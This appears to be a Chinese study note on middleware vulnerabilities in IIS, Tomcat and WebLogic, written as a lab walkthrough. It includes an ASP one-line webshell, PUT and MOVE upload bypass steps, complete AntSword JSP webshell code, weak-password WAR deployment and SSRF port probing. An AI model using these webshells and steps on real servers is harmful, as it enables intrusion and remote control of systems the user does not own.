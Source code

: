 # 网络安全基础

## 网闸

#### 1. 概念

- 网闸是使用带有多种控制功能的**固态开关读写介质**
- 连接两个独立主机系统的**信息安全设备**
- 使系统间不存在通信的物理连接、逻辑连接及信息传输协议，**不存在依据协议进行的信息交换**，而**只有以数据文件形式进行的无协议摆渡**
- 网闸从物理上隔离、**阻断了对内网具有潜在攻击可能的一切网络连接**，使外部攻击者无法直接入侵、攻击或破坏内网，保障了内部主机的安全。

### 请求方法

- PUT通常也用来上传文件
- 通过OPTIONS，可以知道对应服务器支持什么请求
  - ![image-20220521094354423](C:\Users\YL\AppData\Roaming\Typora\typora-user-images\image-20220521094354423.png)



## 中间件漏洞

### IIS漏洞

#### 1. IIS PUT请求漏洞

- IIS6.0版本
- 开启WebDAV 和写权限

如果直接写如一句话木马shell.asp文件，则会出现404错误，上传失败

![image-20220521095249549](C:\Users\YL\AppData\Roaming\Typora\typora-user-images\image-20220521095249549.png)

先利用PUT上传shell.txt，内容为asp一句话<%eval request("1")%>

![image-20220521095009302](C:\Users\YL\AppData\Roaming\Typora\typora-user-images\image-20220521095009302.png)



201 状态码，代表文件创建成功，成功上传了一个le.txt的文件

然后利用MOVE 或 COPY请求方式将shell.txt改为shell.asp;.jpg，（这里直接修改shell.asp同样会出现403）

![image-20220521095718284](C:\Users\YL\AppData\Roaming\Typora\typora-user-images\image-20220521095718284.png)

这样就成功的将shell.asp;.jpg上传成功了，这里使用shell.asp;.gif也可以，成功之后可以使用蚁剑进行连接

![image-20220521101330203](C:\Users\YL\AppData\Roaming\Typora\typora-user-images\image-20220521101330203.png)

![image-20220521101355318](C:\Users\YL\AppData\Roaming\Typora\typora-user-images\image-20220521101355318.png)

![image-20220521101407853](C:\Users\YL\AppData\Roaming\Typora\typora-user-images\image-20220521101407853.png)

这样就是连接成功了

所以我们是先上传了一个txt文件，这样先绕过了直接上传asp文件，然后通过MOVE或COPY，修改了上传的txt文件的后缀，改为shell.asp;.jpg，让他误以为是jpg文件，同时shell.asp;.jpg又能够被当作asp文件执行（分号；后面的不被解析），这样就完成了我们的一句话木马。

这里使用/shell.asp/shell.txt也可以实现绕过

![image-20220521102532974](C:\Users\YL\AppData\Roaming\Typora\typora-user-images\image-20220521102532974.png)

#### 2. IIS 短文件名漏洞

- 在网站根目录下添加aaaaaaaaaa.html，进行猜解，文件存在，返回404
- 存在则返回404，不存在则返回400

#### 3. IIS 远程代码执行

在IIS6.0处理PROPFIND指令的时候，由于对url的长度没有进行有效的长度控制和检查，导致执行memcpy对虚拟路径进行构造的时候，引发栈溢出，从而导致远程代码执行

### Tomcat 漏洞 

#### 1. Tomcat PUT上传文件漏洞

- Tomcat 7.0.0 – 7.0.81

- 需tomcat设置readonly为false
- Tomcat 运行在Windows 主机上，且readonly为false（开启put），可通过构造的攻击请求向服务器上传包含任意代码的 JSP 文件，造成任意代码执行。

![image-20220521172003655](C:\Users\YL\AppData\Roaming\Typora\typora-user-images\image-20220521172003655.png)

没有办法直接上传shell.jsp，所以后面加上一个/，即shell.jsp/，从而绕过。

补充：burpsuite使用PUT请求的方法，先代理，然后发到repeater后，一开始是GET请求，change method，变为POST，然后把POST修改为PUT就可以了。

中国蚁剑的jsp脚本代码如下：

```jsp
<%!
    class U extends ClassLoader {
        U(ClassLoader c) {
            super(c);
        }
        public Class g(byte[] b) {
            return super.defineClass(b, 0, b.length);
        }
    }
 
    public byte[] base64Decode(String str) throws Exception {
        try {
            Class clazz = Class.forName("sun.misc.BASE64Decoder");
            return (byte[]) clazz.getMethod("decodeBuffer", String.class).invoke(clazz.newInstance(), str);
        } catch (Exception e) {
            Class clazz = Class.forName("java.util.Base64");
            Object decoder = clazz.getMethod("getDecoder").invoke(null);
            return (byte[]) decoder.getClass().getMethod("decode", String.class).invoke(decoder, str);
        }
    }
%>
<%
    String cls = request.getParameter("passwd");
    if (cls != null) {
        new U(this.getClass().getClassLoader()).g(base64Decode(cls)).newInstance().equals(pageContext);
    }
%>
```

#### 2. Tomcat7+弱密码&&后端Getshell漏洞

![image-20220521173637830](C:\Users\YL\AppData\Roaming\Typora\typora-user-images\image-20220521173637830.png)

![image-20220521173646805](C:\Users\YL\AppData\Roaming\Typora\typora-user-images\image-20220521173646805.png)

![image-20220521173739352](C:\Users\YL\AppData\Roaming\Typora\typora-user-images\image-20220521173739352.png)

上面这个就是抓取到的包，欺诈Basic后面就是输入的账号密码，并一定对，目前这个是Base64编码，可以解码查看。

![image-20220521173838041](C:\Users\YL\AppData\Roaming\Typora\typora-user-images\image-20220521173838041.png)

![image-20220521175347616](C:\Users\YL\AppData\Roaming\Typora\typora-user-images\image-20220521175347616.png)

![image-20220521175229099](C:\Users\YL\AppData\Roaming\Typora\typora-user-images\image-20220521175229099.png)

由于tomcat后台的弱口令，因此非常容易就能够通过爆破的方式，取得账号密码，之后进入tomcat的后台，就能够直接部署war文件（war文件其实就是一个压缩文件，我们可以把我们的jsp木马文件，通过zip打包，然后改后缀名为war，得到shell.war的文件，然后上传就可以实现我们的webshell了）

![image-20220521180319110](C:\Users\YL\AppData\Roaming\Typora\typora-user-images\image-20220521180319110.png)

上传，然后deploy之后，就完成了shell的上传，路径为/shell/shell.jsp

然后通过蚁剑连接即可

![image-20220521180503287](C:\Users\YL\AppData\Roaming\Typora\typora-user-images\image-20220521180503287.png)

### WebLogic漏洞

#### 1. WebLogic ssrf漏洞

- Weblogic中存在一个SSRF漏洞，利用该漏洞**可以发送任意HTTP请求**

抓包

![image-20220521205201632](C:\Users\YL\AppData\Roaming\Typora\typora-user-images\image-20220521205201632.png)

![image-20220521205138124](C:\Users\YL\AppData\Roaming\Typora\typora-user-images\image-20220521205138124.png)

拿到的这个包，可以看到这个参数operator，这里的这个链接就会造成ssrf攻击，使我们能够获取到内网的信息

![image-20220521205807002](https://cdn.jsdelivr.net/gh/ceresopa/img/imgimage-20220521205807002.png)

![image-20220521205823387](https://cdn.jsdelivr.net/gh/ceresopa/img/imgimage-20220521205823387.png)

可以通过不同的返回，来查看端口是否开放，可以看到内网的7001端口开放，7000端口未开放。

#### 2. WebLogic管理控制台未授权RCE 

- RCE，远程连接命令/代码执行漏洞，简称RCE漏洞，能够让攻击者直接向后台服务器远程写入服务器系统命令或者代码，从而控制后台系统。